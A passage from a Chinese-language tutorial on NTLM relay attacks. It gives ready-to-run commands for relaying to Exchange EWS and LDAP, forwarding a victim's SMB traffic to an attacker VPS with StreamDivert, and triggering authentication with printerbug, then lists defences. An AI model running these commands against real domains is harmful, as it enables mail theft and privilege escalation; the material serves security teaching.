

### 2.Relay To HTTP

很多应用 HTTP 服务也支持 NTLM 认证，因此可以 Relay 到 HTTP 协议。并且HTTP 协议的默认策略是不签名。

#### 1）Exchange 认证

Exchange 认证也支持 NTLM SSP 的。于是我们可以将 SMB 流量 Relay 到Exchange 的 EWS 接口，从而可以进行收发邮件等操作。

使用 ntlmRelayToEWS.py 执行如下命令进行监听：

```
python2 ntlmRelayToEWS.py -t https://10.211.55.5/EWS/exchange.asmx -r getFolder -f inbox -v
```

如图所示，收到了目标用户的 Net-NTLM Hash 后，将其 Relay 到 Exchange 的EWS 接口成功，并且成功导出邮件。



如图所示，在当前目录的 output/inbox 目录下即可看到保存的邮件了。



#### 2）ADCS 证书注册接口

ADCS 证书服务的 HTTP 接口默认使用的是 NTLM 认证，因此可以将流量中继到ADCS 的证书注册接口.

### 3.Relay To LDAP

由于域内默认使用的是 LDAP 协议，而 LDAP 协议也支持使用 NTLM 认证，因此可以将流量中继到 LDAP 协议，这也是域内 NTLM Relay 常用的一种攻击方式。并且 LDAP 的默认策略是协商签名，而并不是强制签名，也就是说是否签名是由客户端决定的，服务端跟客户端协商是否需要签名。

如下是从 HTTP 协议和 SMB 协议 Relay 到 LDAP 协议的不同：

- 从 HTTP 协议 Relay 到 LDAP 是**不要求进行签名**的，可以直接进行 Relay，如 CVE-2018-8581。域内最新的 Relay 手法就是想办法将 HTTP 类型的流量 Relay 到 LDAP 协议。
- 从 SMB 协议 Relay 到 LDAP 是**要求进行签名**的，这时，并不能直接进行Relay。CVE-2019-1040 就是绕过了 NTLM 的 MIC 消息完整性校验，使得 SMB 协议 Relay 到 LDAP 时不需要签名，从而可以发动攻击。

## 实战环境下 NTLM Relay 的利用

在实战中利用 NTLM Relay 的一大难点就是我们在 VPS 监听了端口，但是**目标机器的流量中继不过来**。有的人会说为啥不在目标内网进行监听？原因在于监听需要搭建 impacket 等环境，目标内网无法搭建该监听环境。所以目前我们的思路是，**在 VPS 监听，然后利用目标内网一台出网 Windows 机器通过端口转发进行中继流量转发到我们 VPS 监听的端口上。**目前也有如下解决方案：



项目地址：https://github.com/jellever/StreamDivert

这款工具最大的好处就是不需要 CS 来作为一个中转，**直接将目标 Windows 机器445 的流量转发给指定 VPS 的指定端口即可**。

首先，我们在 VPS 上执行如下命令进行监听，其中修改了监听端口为 1445

```
proxychains4 -q python3 ntlmrelayx.py -t ldap://10.211.55.4 --no-http-server --no-wcf-server -smb2support --remove-mic --delegate-access --escalate-usermachine\$ --smb-port 1445
```

然后将如下文件上传到目标机器：



配置文件如下，其中 81.68.255.200 是 VPS 的 ip

```
tcp < 445 0.0.0.0 -> 81.68.255.200 1445
```

然后在目标机器以管理员权限执行如下命令：

```
StreamDivert.exe config.txt -f -v
```



使用打印机漏洞触发，其中需要攻击的目标是 10.211.55.9，目标出网 Windows 机器是 10.211.55.10

```
python3 printerbug.py xie/hack:P@ssw0rd@10.211.55.9 10.211.55.10
```



可以看到我们 VPS 这边已经收到目标机器的流量并成功完成了中继了！



## NTLM Relay 的防御

由于域内 NTLM Relay 攻击最常见的就是 Relay 到 LDAP 协议执行高危险操作，因此需要对 LDAP 协议进行安全加固。

如图所示，域控上 LDAP 协议默认策略是协商签名，也就是说是否签名是由客户端决定的，服务端跟客户端协商是否需要签名。因此这就造成了安全隐患，客户端可以选择不签名！



微软于 2019 年 9 月份发布相关通告称微软计划于 2020 年 1 月发布安全更新。为了提升域控制器的安全性，该安全更新将强制开启所有域控制器上 LDAP通道绑定(channel binding) 与 LDAP 签名功能。如果域控上的 LDAP 协议强制开启了签名，那么攻击者将无法将其他流量 Relay 到 LDAP 协议进行高危险操作了！

也可以将域控和 Exchange 等重要的服务器加入"protected Users"组中，这样这些服务器的机器账号将不再允许 NTLM 认证，只允许进行 Kerberos 认证。



